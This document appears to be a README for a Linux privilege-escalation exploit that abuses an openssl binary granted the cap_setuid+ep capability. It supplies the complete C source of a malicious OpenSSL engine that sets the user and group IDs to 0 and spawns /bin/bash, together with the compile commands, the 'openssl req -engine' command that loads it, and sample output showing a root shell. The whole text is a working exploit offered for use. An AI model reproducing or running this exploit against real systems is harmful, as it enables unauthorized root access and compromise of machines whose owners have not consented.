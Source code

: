 # All credit goes to chaudhary1337 check out the original at:
https://chaudhary1337.github.io/p/how-to-openssl-cap_setuid-ep-privesc-exploit/

### *Modified by LV6LV*

Consider the binary /usr/bin/openssl has capabilities set as: /usr/bin/openssl = cap_setuid+ep 

Is there a way to become root from a normal user by using this? 
yes... yes there is a way.

## Search all the binaries' capibilities using: 
```
getcap -r / 2>/dev/null.

getcap is the tool we will use
-r is the recursive flag
2>/dev/null directs the standard error stream to /dev/null
```

If you see /usr/bin/openssl = cap_setuid+ep, we are set for success.

## 1. Requirements (On Your System)
We will use #include <openssl/engine.h> header in our exploit engine file. On debian based systems, use: sudo apt-get install libssl-dev to install.
gcc

## 2. Getting The Exploit Ready
Create a file named openssl-exploit-engine.c with contents as such:
```
#include <openssl/engine.h>

static int bind(ENGINE *e, const char *id)
{
  setuid(0); setgid(0);
  system("/bin/bash");
}

IMPLEMENT_DYNAMIC_BIND_FN(bind)
IMPLEMENT_DYNAMIC_CHECK_FN()
```
Check the [2] reference for more information.

## 3. Compiling
Run the following:
```
gcc -fPIC -o openssl-exploit-engine.o -c openssl-exploit-engine.c
```
It is safe to ignore warnings below:

implicit declaration of function ‘setuid’ [-Wimplicit-function-declaration]

implicit declaration of function ‘setgid’ [-Wimplicit-function-declaration]

Next run:
```
gcc -shared -o openssl-exploit-engine.so -lcrypto openssl-exploit-engine.o
```
Resultant is the openssl-exploit-engine.so file.

## 4. Transfer the file to target machine
Once you have the file, run the following, at the location of the so file.

openssl req -engine <full path to openssl-exploit-engine.so file>

Sample output

user@server:~$ openssl req -engine /tmp/openssl-exploit-engine.so
root@server:~# whoami
root
  
Enjoy!

## Common Errors
```
fatal error: openssl/engine.h: No such file or directory #include <openssl/engine.h>
  
Fix by installing libssl-dev (sudo apt-get install libssl-dev)
```

If you get this error, check the section on Requirements.

## 7. References

[1] Read up more on capabilities. 
  https://book.hacktricks.xyz/linux-unix/privilege-escalation/linux-capabilities
[2] OpenSSL building a useless engine
  https://www.openssl.org/blog/blog/2015/10/08/engine-building-lesson-1-a-minimum-useless-engine/
[3] How to use the library load feature OpenSSL
  https://gtfobins.github.io/gtfobins/openssl/#library-load
